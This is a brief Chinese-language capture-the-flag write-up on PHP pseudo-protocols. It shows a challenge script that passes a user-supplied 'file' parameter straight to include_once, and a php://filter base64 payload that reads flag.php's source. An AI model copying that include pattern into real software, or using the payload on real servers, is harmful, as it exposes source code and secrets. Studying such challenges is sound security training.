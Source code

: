#php #PHP伪协议 
传入一个file试试
?file=1(值随便)
```php
<?php   
	ini_set("allow_url_include","on");   
	header("Content-type: text/html; charset=utf-8");   
	error_reporting(0);   
	$file=$_GET['file'];   
	if(isset($file)){    
		show_source(__FILE__);       
		echo 'flag 在flag.php中';   
	}else{       
		echo "传入一个file试试";   }   
	echo "</br>";   
	echo "</br>";   
	echo "</br>";   
	echo "</br>";   
	echo "</br>";   
	include_once($file);   
?>
```

发现有include_once函数；  
include_once()：在脚本执行期间包含并运行指定文件。该函数和include 函数类似，两者唯一的区别是 使用该函数的时候，php会加检查指定文件是否已经被包含过，如果是，则不会再被包含。

于是利用伪协议构造，

```url
php://filter/convert.base64-encode/resource=flag.php
```

然后解密base64
